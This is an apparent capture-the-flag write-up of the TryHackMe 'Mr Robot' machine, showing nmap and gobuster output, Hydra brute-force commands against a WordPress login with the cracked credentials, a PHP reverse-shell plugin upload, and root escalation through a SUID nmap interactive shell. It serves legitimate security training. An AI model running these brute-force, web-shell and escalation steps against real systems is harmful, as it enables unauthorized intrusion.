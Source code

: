 [![Needed-nmap](https://img.shields.io/badge/Needed-nmap-blue)](https://nmap.org/)
[![Needed-Gobuster](https://img.shields.io/badge/Needed-Gobuster-orange)](https://github.com/OJ/gobuster)
[![Needed-Hydra](https://img.shields.io/badge/Needed-Hydra-green)](https://github.com/vanhauser-thc/thc-hydra)

# Mr Robot CTF
*Can you root this Mr. Robot styled machine? This is a virtual machine meant for beginners/intermediate users. There are 3 hidden keys located on the machine, can you find them?*

## Reconnaissance
Running nmap in aggressive mode we get:
```
┌──(marco㉿DellMarco)-[/mnt/f/kali]
└─$ sudo nmap -A -Pn -sV 10.10.242.93

Nmap scan report for 10.10.242.93
Host is up (0.058s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache
443/tcp open   ssl/http Apache httpd
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03
|_http-server-header: Apache
```

At a brief inspection of the services we have:
- **Port 22**: closed SSH
- **Port 80**: HTTP Apache web server. A page welcoming us to fsociety with a lot of videos
- **Port 443**: HTTPS Apache web server. Same as above, but more secure :)

## Enumeration
With gobuster we enumerate the root finding a lot of directories:
```
┌──(marco㉿DellMarco)-[/mnt/f/kali]
└─$ gobuster -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt dir -u http://10.10.242.93 -x txt,php
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.242.93
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,txt
[+] Timeout:                 10s
===============================================================
2022/03/21 15:11:44 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 235] [--> http://10.10.242.93/images/]
/index.php            (Status: 301) [Size: 0] [--> http://10.10.242.93/]         
/blog                 (Status: 301) [Size: 233] [--> http://10.10.242.93/blog/]  
/rss                  (Status: 301) [Size: 0] [--> http://10.10.242.93/feed/]    
/sitemap              (Status: 200) [Size: 0]                                    
/login                (Status: 302) [Size: 0] [--> http://10.10.242.93/wp-login.php]
/0                    (Status: 301) [Size: 0] [--> http://10.10.242.93/0/]          
/feed                 (Status: 301) [Size: 0] [--> http://10.10.242.93/feed/]       
/video                (Status: 301) [Size: 234] [--> http://10.10.242.93/video/]    
/image                (Status: 301) [Size: 0] [--> http://10.10.242.93/image/]      
/atom                 (Status: 301) [Size: 0] [--> http://10.10.242.93/feed/atom/]  
/wp-content           (Status: 301) [Size: 239] [--> http://10.10.242.93/wp-content/]
/admin                (Status: 301) [Size: 234] [--> http://10.10.242.93/admin/]     
/audio                (Status: 301) [Size: 234] [--> http://10.10.242.93/audio/]     
/intro                (Status: 200) [Size: 516314]                                   
/wp-login             (Status: 200) [Size: 2606]                                     
/wp-login.php         (Status: 200) [Size: 2664]                                     
/rss2                 (Status: 301) [Size: 0] [--> http://10.10.242.93/feed/]        
/css                  (Status: 301) [Size: 232] [--> http://10.10.242.93/css/]       
/license              (Status: 200) [Size: 309]                                      
/license.txt          (Status: 200) [Size: 309]                                      
/wp-includes          (Status: 301) [Size: 240] [--> http://10.10.242.93/wp-includes/]
/robots.txt          (Status: 200) [Size: 309] 
```

From this scan we can see two things:
- A robots file
- A WordPress site pages
```
User-agent: *
fsocity.dic
key-1-of-3.txt
```

`key-1-of-3.txt` is the first flag. `fsocity.dic` is a dictionary probably useful later.

## Hack Wordpress
### Credentials enumeration
We don't have credentials to login in WordPress, but we notice that the form tells us whether the username exists or not.<br>
It's time to bruteforce the credentials! With Hydra we can try the found dictionary. The initial one has about 850000 entries, but many are repeated, so we can cut the file with the command `fsocity.dic | uniq | sort > fsocitysortuniq.dic`.<br>
To find the username we can set a test password and try the dictionary on username field like this:
```
┌──(marco㉿DellMarco)-[/mnt/f/kali/TryHackMe/Mr_Robot_CTF]
└─$ hydra -L fsocity.dic -p test 10.10.222.127 http-post-form "/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fmrrobot.thm%2Fwp-admin%2F&testcookie=1:F=Invalid username"  
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-03-22 15:58:31
[DATA] max 16 tasks per 1 server, overall 16 tasks, 858235 login tries (l:858235/p:1), ~53640 tries per task
[DATA] attacking http-post-form://10.10.222.127:80/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fmrrobot.thm%2Fwp-admin%2F&testcookie=1:F=Invalid username
[80][http-post-form] host: 10.10.222.127   login: Elliot   password: test
```

After finding that the username is `Elliot` we can bruteforce the password in the same way:
```
┌──(marco㉿DellMarco)-[/mnt/f/kali/TryHackMe/Mr_Robot_CTF]
└─$ hydra -l Elliot -P ./fsocitysortunique.dic 10.10.222.127 http-post-form "/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fmrrobot.thm%2Fwp-admin%2F&testcookie=1:S=302" 
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-03-22 16:11:33
[DATA] max 16 tasks per 1 server, overall 16 tasks, 11452 login tries (l:1/p:11452), ~716 tries per task
[DATA] attacking http-post-form://10.10.222.127:80/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fmrrobot.thm%2Fwp-admin%2F&testcookie=1:S=302
[80][http-post-form] host: 10.10.222.127   login: Elliot   password: ER28-0652
```

The password is `ER28-0652`. Now we can login into the admin panel.

### Reverse shell
In the panel there isn't much interesting, but we find a plugin upload form. Since the site is written in php, we should be able to execute an arbitrary php plugin :)<br>
Now we upload [this](php-reverse-shell.php) reverse shell as a zip and activate the plugin. On our selected port a `daemon` user shell will be waiting for us.
We can even improve it with the command `python -c 'import pty; pty.spawn("/bin/bash")'`<br>

In current directory there's nothing useful, but in `/home/robot/` we find the second key (readable only by `robot`) and password.raw-md5 = `robot:c3fcd3d76192e4007dfb496cca67e13b`.<br>
After cracking it (an online website can do the work without using hashcat or john), we get the password in clear: `abcdefghijklmnopqrstuvwxyz`.
Now: `su robot` -> `cat /home/robot/key-2-of-3.txt`

## Privilege escalation
Finding sudo privileges with `sudo -l` gives us nothing, so we try to search SUID executables with:
```
$ find / -perm /4000
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
find: '/etc/ssl/private': Permission denied
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown
```

Where's Waldo? Surely nmap is a strange executables to be SUID... With a quick google search we learn of nmap interactive mode, which lets us spawn a shell!<br>
With `nmap --interactive` we enter interactive mode, and with `!sh` we spawn a root shell! Then we can read `/root/key-3-of-3.txt` :)
